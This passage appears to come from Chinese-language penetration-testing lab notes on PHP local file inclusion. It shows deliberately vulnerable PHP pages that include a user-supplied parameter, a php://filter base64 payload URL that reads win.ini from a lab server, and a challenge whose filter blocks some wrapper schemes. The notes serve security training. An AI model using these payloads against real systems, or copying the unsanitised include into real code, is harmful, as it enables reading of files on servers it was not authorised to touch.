 ###### base64解码

![image-20241031135904295](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031135904295.png)

![image-20241031135935690](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031135935690.png)

```php
<?php     include("../common/header.php");   ?>

<!-- from https://pentesterlab.com/exercises/php_include_and_post_exploitation/course -->
<?php hint("will include the arg specified in the GET parameter \"page\""); ?>

<form action="/LFI-1/index.php" method="GET">
    <input type="text" name="page">
</form>

<?php
include($_GET["page"]);
?>

```



##### php://filter显示win.ini

```bash
http://192.168.70.10:8101/LFI-1/index.php?page=php://filter/read=convert.base64-encode/resource=c:/windows/win.ini
```

这样就以`base64`编码方式输出了代码

![image-20241031135541255](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031135541255.png)

###### base64解码

![image-20241031135652041](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031135652041.png)

### input

#### EX-1

> php版本：7.3.4

```bash
<meta charset="utf8">
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://filter") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
	exit('hacker!');
}
if($file){
	if ($file!="http://www.baidu.com") echo "tips：flag在当前目录的某个文件中";
	include($file);
}else{
	echo '<a href="?file=http://www.baidu.com">click go baidu</a>';
}
?>
```
